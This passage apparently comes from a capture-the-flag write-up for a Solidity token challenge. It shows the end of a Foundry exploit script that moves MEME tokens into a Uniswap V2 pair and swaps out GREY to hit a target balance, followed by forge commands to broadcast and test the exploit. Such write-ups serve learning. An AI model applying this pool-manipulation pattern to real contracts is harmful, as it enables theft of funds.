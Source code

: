 ```solidity
    uint256 memeBalance = meme.balanceOf(me);
    meme.transfer(pair, memeBalance);
    uint256 minimumTargetGREY = 5.965 ether - grey.balanceOf(me);
    bool isGREYToken0 = (IUniswapV2Pair(pair).token0() == address(grey));
    IUniswapV2Pair(pair).swap(isGREYToken0 ? minimumTargetGREY : 0, isGREYToken0 ? 0 : minimumTargetGREY, me, "");
        
    vm.stopBroadcast();
}
```

See the full exploitation script [here](script/Exploit.s.sol). If you are interested with the test script as well, see the test script [here](test/Exploit.t.sol).

### Command to Deploy the Script and Test

For `Exploit.s.sol`:

```bash
forge script script/Exploit.s.sol:Exploit --broadcast --rpc-url $RPC_URL --private-key $PK
```

For `Exploit.t.sol`:

```bash
forge test --match-test testExploit
```

Please kindly save the variables in the `.env` file. However, and please don't save your private key in plaint text in production!

---